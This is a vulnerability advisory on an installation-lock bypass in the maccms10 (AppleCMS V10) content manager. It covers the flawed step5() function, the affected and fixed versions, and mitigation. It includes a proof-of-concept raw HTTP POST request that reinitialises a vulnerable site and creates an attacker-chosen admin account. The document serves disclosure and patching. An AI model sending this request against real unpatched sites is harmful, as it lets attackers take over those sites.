



# Vulnerability Report: Installation Bypass in maccms10

## Summary
A logical vulnerability in the installation module of **maccms10 (AppleCMS V10)** allows unauthenticated remote attackers to bypass the installation lock. By directly accessing the final installation step, an attacker can re-initialize the system, overwrite the configuration, and create a new administrative account.

## Affected Versions
- **Product:** maccms10
- **Affected Versions:** All versions prior to **v2022.1000.3025**
- **Fixed Version:** v2022.1000.3025 (or later)

## Technical Analysis
The flaw exists in `application/install/controller/Index.php`. The `step5()` function, which handles the final database setup and administrator registration, fails to check for the existence of the `install.lock` file before execution. 

While the software creates a lock file at the end of the installation process, the lack of an entry-level verification allows an attacker to re-trigger the logic at any time via a crafted POST request.



> *Figure 1: Missing installation lock check in step5 function.*

## Proof of Concept (PoC)

### Steps to Reproduce:
1. Identify a target running a vulnerable version of maccms10.
2. Send a crafted POST request to the endpoint: `/index.php?s=install/index/index&step=5`.
3. Provide the following parameters in the POST body: `account`, `password`, `install_dir`, and `initdata`.

### HTTP Request (Raw):
```http
POST /index.php?s=install/index/index&step=5 HTTP/1.1
Host: localhost:8080
Content-Type: application/x-www-form-urlencoded
Connection: close

account=hacker&password=hacker123&install_dir=%2F&initdata=0
```

### Response Comparison:

| Version | Response Status | Result |
| :--- | :--- | :--- |
| **Vulnerable** | `200 OK` | Admin account created successfully |
| **Patched** | `403 Forbidden` | Access Denied |


> *Figure 2: Successful bypass returning 200 OK and installation success message.*


> *Figure 3: Patched version correctly denying access with 403 Forbidden.*

## Mitigation
Update to the latest version of maccms10 (v2022.1000.3025 or later). The developers have addressed this by implementing a global check in the controller to ensure the installation module is completely inaccessible once the system is locked.

